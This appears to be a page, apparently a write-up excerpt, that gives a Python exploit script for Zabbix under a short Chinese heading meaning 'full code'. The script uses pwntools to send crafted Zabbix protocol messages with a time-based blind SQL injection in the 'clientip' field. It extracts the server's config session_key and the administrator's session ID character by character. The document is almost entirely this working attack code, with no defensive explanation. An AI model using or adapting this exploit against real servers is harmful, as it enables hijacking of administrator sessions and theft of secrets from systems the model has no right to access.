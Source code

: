完整的代码：

```python
import hmac
import json
import argparse
import requests
from pwn import *
from datetime import datetime

def SendMessage(ip, port, sid, hostid, injection):
    context.log_level = "CRITICAL"
    zbx_header = "ZBXD\x01".encode()
    message = {
        "request": "command",
        "sid": sid,
        "scriptid": "1",
        "clientip": "' + " + injection + "+ '",
        "hostid": hostid
    }
    message_json = json.dumps(message)
    message_length = struct.pack('<q', len(message_json))
    message = zbx_header + message_length + message_json.encode()
    r = remote(ip, port, level="CRITICAL")
    r.send(message)
    r.recv(1024)
    r.close()

def ExtractConfigSessionKey(ip, port, sid, hostid, time_false, time_true):
    token = ""
    token_length = 32
    for i in range(1, token_length+1):
        for c in string.digits + "abcdef":
            before_query = datetime.now().timestamp()
            query = "(select CASE WHEN (ascii(substr((select session_key from config),%d,1))=%d) THEN sleep(%d) ELSE sleep(%d) END)" % (i, ord(c), time_true, time_false)
            SendMessage(ip, port, sid, hostid, query)
            after_query = datetime.now().timestamp()
            if time_true > (after_query-before_query) > time_false:
                continue
            else:
                token += c
                print("(+) session_key=%s" % token, flush=True)
                break
    return token

def ExtractAdminSessionId(ip, port, sid, hostid, time_false, time_true):
    session_id = ""
    token_length = 32
    for i in range(1, token_length+1):
        for c in string.digits + "abcdef":
            before_query = datetime.now().timestamp()
            query = "(select CASE WHEN (ascii(substr((select sessionid from sessions where userid=1 limit 1),%d,1))=%d) THEN sleep(%d) ELSE sleep(%d) END)" % (i, ord(c), time_true, time_false)
            SendMessage(ip, port, sid, hostid, query)
            after_query = datetime.now().timestamp()
            if time_true > (after_query-before_query) > time_false:
                continue
            else:
                session_id += c
                print("(+) session_id=%s" % session_id, flush=True)
                break
    return session_id

```